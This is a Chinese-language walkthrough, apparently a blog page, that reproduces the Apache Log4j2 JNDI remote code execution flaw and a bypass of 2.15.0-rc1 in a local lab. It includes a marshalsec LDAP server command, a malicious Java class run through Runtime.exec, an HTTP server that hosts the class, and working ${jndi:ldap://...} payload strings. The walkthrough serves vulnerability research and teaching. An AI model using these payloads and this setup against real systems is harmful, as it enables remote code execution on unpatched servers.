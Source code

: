 ```yaml
---
layout: about
category: about
wrench: 2021-12-28
toc: true
Researchname: Apache Log4J RCE复现历程
author: Bin4xin
permalink: /about/Apache-Log4j-RCE-WalkThrough/
---
```


## [Apache Log4j-v2.x-x RCE](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j)

> 影响版本：
>
> Apache Log4j 2.x <= 2.15.0-rc1

### Apache Log4j 2.x < 2.15.0-rc1 RCE

#### 环境准备

- 标题仓库中demo.jar(更接近实际渗透环境)
- 或者[<del>idea代码直接调试</del>](https://github.com/tangxiaofeng7/apache-log4j-poc/)
  - *Tips:2021-12-21更新*：
  - 原仓库作者已删除，我这里仓库重新上传了一份，[apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j/apache-log4j-poc)

```
[apache-log4j-poc]-git:(main)>git remote -v
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (fetch)
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (push)
```

> 值得注意的是：
> 
> @apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
> java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

#### 分析环境

把demo.jar拉到jd-gui中反编译：

- `com.example.log4j2_rce.Log4j2RceApplication`代码如下所示：

```java
@PostMapping({"/hello"})
public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
}
```

访问路由为hello，post`payload`参数；

#### 尝试

```bash
# 启web
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

直接访问加上payload进行攻击：

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![log4j_poc_success.png](https://s2.loli.net/2021/12/15/ULolm84r2h5yeJS.png)

### Apache Log4j 2.x >= 2.15.0-rc1 RCE

#### 环境准备

- 快速开始：
- 修改[idea代码直接调试apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/pom.xml)
代码版本为`<version>2.15.0-rc1</version>`

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <!--<version>2.14.1</version>-->
    <version>2.15.0-rc1</version>
</dependency>
    <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <!--<version>2.14.1</version>-->
    <version>2.15.0-rc1</version>
</dependency>
```

- 我这里是下载好的[Log4j 2.15.0-rc1](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)用maven编译好后本地安装到仓库，所以不会报错；
  - [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)

尝试payload运行控制台返回：`23:05:26.715 [main] ERROR log4j - ${jndi:ldap://192.168.3.64:1389/dnslog}`，貌似已经修复了；
但是我们经过手动添加一些选项配置仍然是可以绕过的：

- 添加[src/resources/log4j2.xml](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/src/resources/log4j2.xml)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration status="OFF" monitorInterval="30">
    <appenders>
        <console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%m{lookups}%n"/>
        </console>
    </appenders>

    <loggers>
        <root level="all">
            <appender-ref ref="Console"/>
        </root>
    </loggers>
</configuration>
```

- `<PatternLayout pattern="%m{lookups}%n"/>`开启lookup；
- 尝试打印info、debug之类的信息确定配置文件已加载；

```bash
logger.error("hello,error");
logger.info("hello,info");
logger.debug("hello,debug");
#输出如下：
hello,error
hello,info
hello,debug

Process finished with exit code 0
```

#### Bypass攻击

payload为`${jndi:ldap://127.0.0.1#.4ra1n.love:1389/badClassName}`；

具体的绕过以及RCE分析可参考[RCE](https://xz.aliyun.com/t/10689#toc-3)和[分析](https://xz.aliyun.com/t/10689#toc-4)；

![截屏2021-12-28 上午9.44.15.png](https://s2.loli.net/2021/12/28/SdgnR1A93FV5W6l.png)

## 限制

- 目前暂时只知道jdk高版本会报错：`[main] ERROR log4j - Reference Class Name: foo`

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)
- [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649)
- [浅谈Log4j2之2.15.0版本RCE](https://xz.aliyun.com/t/10689)
- [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)
